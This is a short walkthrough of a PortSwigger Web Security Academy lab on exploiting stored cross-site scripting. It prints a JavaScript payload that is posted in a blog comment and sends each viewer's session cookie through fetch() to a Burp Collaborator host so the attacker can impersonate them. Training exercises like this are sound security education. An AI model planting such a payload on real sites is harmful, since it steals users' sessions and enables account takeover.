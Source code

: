 













---

### [Exploiting cross-site scripting to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)

Goal: exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

- go to the Burp menu, and launch the [Burp Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client).

- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. 

- Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:

  ```
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body:document.cookie
  });
  </script>
  ```

  This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.

- Go back to the Burp Collaborator client window, and click "Poll now". You should see an HTTP interaction. 

- Take a note of the value of the victim's cookie in the POST body.
